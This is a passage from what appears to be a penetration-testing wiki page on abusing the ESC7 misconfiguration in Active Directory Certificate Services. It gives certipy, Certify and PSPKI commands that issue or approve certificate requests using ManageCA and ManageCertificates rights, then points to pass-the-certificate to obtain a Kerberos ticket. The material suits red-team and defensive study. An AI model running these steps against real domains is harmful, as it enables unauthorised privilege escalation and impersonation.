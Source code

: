 In order to abuse the `SubCA` template with ESC7, both `ManageCA` and `ManageCertificates` are needed in order to issue a certificate from a failed request.

```bash
# Issue a failed request (need ManageCA and ManageCertificates rights for a failed request)
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -issue-request 100

# Retrieve an issued certificate
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -retrieve 100
```

The certificate can then be used with [Pass-The-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate info about the CAs, including access rights over the CA object, and to request a certificate that requires manager approval.

In this example, both `ManageCA` and `ManageCertificates` are already obtained. There is no known method to obtain the `ManageCertificates` right.

Then, [PSPKI](https://github.com/PKISolutions/PSPKI) (PowerShell) can be used to approve a certificate request ([RSAT](https://docs.microsoft.com/fr-fr/troubleshoot/windows-server/system-management-components/remote-server-administration-tools) is needed on the machine where PSPKI is used). PSPKI is a PowerShell module used to "simplify various PKI and AD CS management tasks".

```powershell
# 1. Request a certificate that requires manager approval with Certify
Certify.exe request /ca:CA.domain.local\CA /template:ApprovalNeeded
...
[*] Request ID : 1

# 2. Install PSPKI on a controlled Windows host
Install-Module -Name PSPKI
Import-Module PSPKI

# 3. Approve the pending request with PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA.domain.local | Get-PendingRequest -RequestID 1 | Approve-CertificateRequest

# 4. Download the certificate with Certify
Certify.exe download /ca:CA.domain.local\CA /id:1
```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
If sensitive rights are identified, creativity will be the best ally. Not much public tooling is available at the time of writing (October 21st, 2021).

Currently, the best resources for manually abusing this are

